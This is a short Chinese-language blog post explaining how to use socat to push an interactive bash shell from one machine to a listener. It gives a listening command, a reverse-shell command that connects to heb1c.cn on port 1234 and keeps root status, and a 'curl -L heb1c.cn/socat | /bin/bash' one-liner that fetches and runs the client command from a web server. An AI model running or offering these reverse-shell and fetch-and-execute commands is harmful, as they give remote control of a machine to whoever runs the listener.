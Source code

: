 ```yaml
---
layout: post
title: '利用socat实现远程终端控制'
date: 2019-3-18
author: heb1c
cover: ''
tags: linux
---
```


> 通过使用socat, 给远端弹一个shell, 在远端实现远程控制

# 使用方式

`服务端`

```sh
    socat file:`tty`,raw,echo=0 tcp-listen:1234
```
在服务端运行这个命令，开启socat-server，监听1234端口

`客户端`

```sh
    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:heb1c.cn:1234
```
与服务端对应，配置相应的host与port即可将当前shell远程给服务端。  
ps: 服务端获取到的shell和本地完全一致，包括root状态。

可以将命令放到web服务，通过自己配置的链接使用服务，如
```sh
    curl -L heb1c.cn/socat | /bin/bash
```
通过以上命令等同于客户端的命令

> 利用socat实现远程终端控制  
> 原创作品，转载请注明来源 [https://hebicheng.github.io](https://hebicheng.github.io)  
